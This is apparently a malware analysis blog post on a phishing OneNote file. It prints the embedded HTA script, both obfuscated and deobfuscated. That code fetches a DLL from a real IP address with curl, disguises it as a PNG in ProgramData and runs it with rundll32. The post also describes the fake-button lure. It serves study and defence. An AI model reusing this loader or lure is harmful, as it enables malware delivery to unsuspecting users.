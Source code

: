 ```yaml
---
title: "Malicious OneNote File"
classes: wide
header:
  teaser: /assets/images/mal-docs/Malicious_OneNote/ground.png
ribbon: DodgerBlue
description: "Investigation for Phishing OneNote File ..."
categories:
  - Mal-Docs
toc: true
---
```


# Sample info

We are given a Sample OneNote file with hash 
    
    sha256 "a870d31caea7f6925f41b581b98c35b162738034d5d86c0c27c5a8d78404e860"

I always like to Start my analysis using the two utilities "file & strings"
So running file utility returned that.

![error loading](/assets/images/mal-docs/Malicious_OneNote/file.png)

Not so intersting i know, but Strings output looks very intersting.

![error loading](/assets/images/mal-docs/Malicious_OneNote/strings.png)

The JavaScript code here doesn't have that much of obfuscation. 

```html
<html>
<div id="content">f5&u5&n5&c5&t5&i5&o5&n5& 5&s5&l5&e5&e5&p5&(5&m5&i5&l5&l5&i5&s5&)5&{5&v5&a5&r5& 5&d5&a5&t5&e5& 5&=5& 5&n5&e5&w5& 5&D5&a5&t5&e5&(5&)5&;5&v5&a5&r5& 5&c5&u5&r5&D5&a5&t5&e5& 5&=5& 5&n5&u5&l5&l5&;5&d5&o5& 5&{5& 5&c5&u5&r5&D5&a5&t5&e5& 5&=5& 5&n5&e5&w5& 5&D5&a5&t5&e5&(5&)5&;5& 5&}5&w5&h5&i5&l5&e5&(5&c5&u5&r5&D5&a5&t5&e5& 5&-5& 5&d5&a5&t5&e5& 5&<5& 5&m5&i5&l5&l5&i5&s5&)5&;5&}5&/5&*5&*5& 5&v5&a5&r5& 5&u5&r5&l5& 5&=5& 5&"5&h5&t5&t5&p5&s5&:5&/5&/5&g5&o5&o5&g5&l5&e5&.5&c5&o5&m5&"5&;5& 5&*5&/5&n5&e5&w5& 5&A5&c5&t5&i5&v5&e5&X5&O5&b5&j5&e5&c5&t5&(5&"5&w5&s5&c5&r5&i5&p5&t5&.5&s5&h5&e5&l5&l5&"5&)5&.5&r5&u5&n5&(5&"5&c5&u5&r5&l5&.5&e5&x5&e5& 5&-5&-5&o5&u5&t5&p5&u5&t5& 5&C5&:5&\5&\5&P5&r5&o5&g5&r5&a5&m5&D5&a5&t5&a5&\5&\5&i5&n5&d5&e5&x5&15&.5&p5&n5&g5& 5&-5&-5&u5&r5&l5& 5&"5& 5&+5& 5&u5&r5&l5&,5& 5&05&)5&;5&s5&l5&e5&e5&p5&(5&15&55&05&05&05&)5&;5&v5&a5&r5& 5&s5&h5&e5&l5&l5& 5&=5& 5&n5&e5&w5& 5&A5&c5&t5&i5&v5&e5&X5&O5&b5&j5&e5&c5&t5&(5&"5&s5&h5&e5&l5&l5&.5&a5&p5&p5&l5&i5&c5&a5&t5&i5&o5&n5&"5&)5&;5&s5&h5&e5&l5&l5&.5&s5&h5&e5&l5&l5&e5&x5&e5&c5&u5&t5&e5&(5&"5&r5&u5&n5&d5&l5&l5&35&25&"5&,5& 5&"5&C5&:5&\5&\5&P5&r5&o5&g5&r5&a5&m5&D5&a5&t5&a5&\5&\5&i5&n5&d5&e5&x5&15&.5&p5&n5&g5&,5&W5&i5&n5&d5&"5&,5& 5&"5&"5&,5& 5&"5&o5&p5&e5&n5&"5&,5& 5&35&)5&;5&</div>
<script language="javascript">
var h3 = "800de15c79c8d840f4e78d3af937d4d4";
var content = document.getElementById("content").innerText;
</script>
<script language="vbscript">
Dim WshShell : Set WshShell = CreateObject("WScript.Shell")
' Write reg
WshShell.RegWrite "HKCU\SOFTWARE\Xeonitox\MP3Conv\Cfg", content, "REG_SZ"
' msgbox WshShell.RegRead("HKCU\SOFTWARE\Xeonitox\MP3Conv\Cfg")
</script>
<script language="javascript">
var body = WshShell.RegRead("HKCU\\SOFTWARE\\Xeonitox\\MP3Conv\\Cfg");
var func = Function("url", body.replace(/5&/g, ""));
func("http://139.99.117.17/39444.dat");
</script>
<script language="vbscript">
WshShell.RegDelete("HKCU\SOFTWARE\Xeonitox\MP3Conv\Cfg")
' Close window
window.close
</script>
</html>
```

It's just a simple replacement for the "5&" with nothing.
here is the deobfuscated code.

```js
function sleep(millis){
  var date = new Date();
  var curDate = null;
  do { 
    curDate = new Date();
     }
     while(curDate - date < millis);
   }/** var url = "https://google.com"; */
   new ActiveXObject("wscript.shell").run("curl.exe --output C:\\ProgramData\\index1.png --url " + url, 0);
   sleep(15000);
   var shell = new ActiveXObject("shell.application");shell.shellexecute("rundll32", "C:\\ProgramData\\index1.png,Wind", "", "open", 3);
```
The Script is prety easy it's just downloading a file from a remoteserver and executing it using "rundll32" So it's downloading a dll file and passing the parameter "wind" to the rundll32 to specify the function that will be executed in that dll.

# Tricking method

The most popular way for tricking user to trigger the payload in OneNote can be shown in the following picture.

![error loading](/assets/images/mal-docs/Malicious_OneNote/ground.png)

This is the what you will see if you opened the note, as you can imagine the only thing you can do is clicking the open button.
But actually it's not a button, it's a small picture that alligned above an HTA file which is the script we saw before.
So clicking the open button is actually triggering the HTA file.

![error loading](/assets/images/mal-docs/Malicious_OneNote/ground2.png)

